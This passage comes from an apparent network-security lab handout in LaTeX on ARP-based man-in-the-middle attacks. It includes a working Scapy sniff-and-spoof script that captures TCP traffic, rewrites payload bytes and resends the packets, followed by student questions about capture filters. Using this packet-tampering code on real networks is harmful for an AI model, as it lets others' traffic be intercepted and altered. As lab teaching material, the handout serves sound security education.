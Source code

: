 \paragraph{MITM code.}
Once the IP forwarding is disabled, our program needs to take over
the role of packet forwarding from the victim to the target, of course
after making changes to the packets. Since the packet's destination 
is not for us, the kernel will not give the packet to us; it will simply
drops the packet. However, if our program is a sniffer program,
we will get the packet from the kernel. Therefore, we will use 
the sniff-and-spoof technique to implement this MITM attack.
In the following, we provide a sample sniff-and-spoof
program, which captures TCP packets,
makes some changes, before sending them out.  
You can find the code from the lab setup files.

\begin{lstlisting}[language=python, caption={Sample code: \texttt{mitm\_sample.py}}]
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
   newpkt = IP(bytes(pkt[IP]))
   del(newpkt.chksum)
   del(newpkt[TCP].payload)
   del(newpkt[TCP].chksum)

   if pkt[TCP].payload:
       data = pkt[TCP].payload.load
       print("*** %s, length: %d" % (data, len(data)))

       # Replace a pattern
       newdata = data.replace(b'seedlabs', b'AAAAAAAA')

       send(newpkt/newdata)
   else:
       send(newpkt)

f = 'tcp'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
\end{lstlisting}

It should be noted that the code above captures all the TCP
packets, including the one generated by the program itself. That is
undesirable, as it will affect
the performance. Students needs to change the filter, so it does not capture
its own packets.

\paragraph{Questions.} After you have succeeded in the attack, please 
answer the following questions: 

\begin{itemize}
  \item Question 4: In your MITM program, you only need to capture 
    the traffics in one direction. Please indicate which direction, 
    and explain why.

  \item Question 5: In the MITM program, when you capture the 
    \texttt{nc} traffics from A (\texttt{10.9.0.5}), 
    you can use A's IP address or MAC address in the filter. 
    One of the choices is not good and is going to create issues, 
    even though both choices may work. 
    Please try both, and use your experiment results to 
    show which choice is the correct one, and please
    explain your conclusion.
\end{itemize}
 



